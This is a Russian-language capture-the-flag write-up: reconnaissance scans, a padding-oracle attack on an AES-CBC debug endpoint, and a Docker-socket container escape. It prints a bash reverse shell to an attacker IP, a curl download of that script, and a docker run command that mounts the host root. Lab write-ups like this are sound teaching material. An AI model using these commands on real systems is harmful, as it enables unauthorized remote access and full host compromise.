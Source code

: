 #web #crypto #aes #docker #docker-escape
nmap
```shell
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

dirsearch
```
Target: http://10.10.222.48:8080/

[16:57:26] Starting:
[16:57:53] 200 -    6KB - /favicon.ico
[16:57:59] 200 -    3KB - /login.html

Task Completed
```

gobuster
```
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.222.48:8080/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                wordlists/kali-wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 4332]
/login.html           (Status: 200) [Size: 2670]
/exec.html            (Status: 401) [Size: 0]
/debug.html           (Status: 200) [Size: 2638]
/http%3A              (Status: 200) [Size: 4332]
/**http%3a            (Status: 200) [Size: 4332]
/*http%3A             (Status: 200) [Size: 4332]
/**http%3A            (Status: 200) [Size: 4332]
Progress: 882240 / 882244 (100.00%)
```

На странице debug в сурсах найден вот такой скрипт
```javascript
function stefanTest1002() {
        var xhr = new XMLHttpRequest();
        var url = "http://localhost/api/debug";
        // Submit the AES/CBC/PKCS payload to get an auth token
        // TODO: Finish logic to return token
        xhr.open("GET", url + "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4", true);

        xhr.onreadystatechange = function () {
            if (xhr.readyState === 4 && xhr.status === 200) {
                console.log("Response: ", xhr.responseText);
            } else {
                console.error("Failed to send request.");
            }
        };
        xhr.send();
```

Отсюда нас интересует интересный урл `/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4`

О нет, это криптовеб, куда я попал

39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 - это [[AES ]] c 5 блоками, где первый блок - вектор инициализации. Судя по тому, что сервис sponsored by oracle и по тому, что ему надо пофиксить "подробность ошибки, связанной с паддингом", перед нами паддинг оракул.

Всего 5 часов и я сделал. Воть stefan1197:ebb2B76@62#f??7cA6B76@6!@62#f6dacd2599

Стандартные споосбы прокинуть ревшелл не сработали, но тут использовался обходной.
Делаем вот такой файлик

```bash
#!/bin/bash  
sh -i >& /dev/tcp/10.11.133.205/1337 0>&1
```

И качаем его на атакуемой машине

```bash
curl http://10.11.133.205:3228/rev.sh -o /tmp/rev
```

и тут начался сущий кошмар...

### Побег из контейнера

ладно, на самом деле все просто было. Был примонтирован сокет докера в контейнер. Смотришь, какие есть images, запускаешь один из них, монтируя корневую папку хоста в контейнер и делая в нее chroot. Все, у тебя доступ к файловой системе хоста.

делается это вот так
```shell
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```
